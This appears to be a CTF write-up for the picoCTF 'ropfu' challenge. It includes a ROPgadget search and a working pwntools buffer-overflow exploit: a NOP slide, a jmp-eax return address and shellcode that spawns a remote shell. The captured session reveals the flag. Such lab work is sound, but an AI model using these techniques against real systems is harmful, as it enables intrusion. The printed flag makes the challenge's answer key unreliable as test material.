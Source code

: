 [https://medium.com/@valsamaramalamatenia/picoctf-ropfu-beginners-guide-eb7af08567b5](https://medium.com/@valsamaramalamatenia/picoctf-ropfu-beginners-guide-eb7af08567b5)
Refer this writeup
Canary found, hence statically linked
Vuln is not statically linked
```bash
ROPgadget --binary executable_name | grep "jmp eax"
```

We can see that the command “jmp eax” exists at address 0x0805333b, so we will overwrite EIP’s value with this address. By doing so, the program counter will jump to EAX and execute the code it points to — since it points to our input, our code will be executed.

We want to get code execution on the remote server and in order to do that we have to use some shellcode. The most convenient way to do this is to use the corresponding method from the pwn tools.

We fill 26 bytes with NOPs (they are commands that do nothing and their bytecode is \x90), followed by a jump-short command (\xeb\x04). We then write the EIP register with the address of the “jmp eax” command.

We entered 26 NOPs as a NOP slide. Then we have a jump-short command. This is done in order to jump over the return address that we overwrote before. This is due to the fact that if we don’t jump over this address, then the bytes from which it consists are going to be interpreted as code and are going to get executed, leading to unpredictable results. 

```python
import pwn
import sys
payload = b'\x90' * 26
payload += b'\xeb\x04'
payload += pwn.p32(0x0805333b)
payload += pwn.asm(pwn.shellcraft.i386.linux.sh())
with open("output.bin" , "wb") as file:
	file.write(payload)

p = pwn.remote('saturn.picoctf.net',60590)
p.sendline(payload)
p.interactive()
```
  
we want the command to return a shell; we achieve this with pwn.asm(pwn.shellcraft.i386.linux.sh()) (this is the bytecode to give us a shell, and the pwn library helps with it)

![[ROPFU1.png]]
![[ROPFU2.png]]

run the script
```bash
[+] Opening connection to saturn.picoctf.net on port 61033: Done
[*] Switching to interactive mode
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
$ ls
flag.txt
vuln
$ cat flag.txt
picoCTF{5n47ch_7h3_5h311_4c812975}$  
```

**FLAG - `picoCTF{5n47ch_7h3_5h311_4c812975}`**

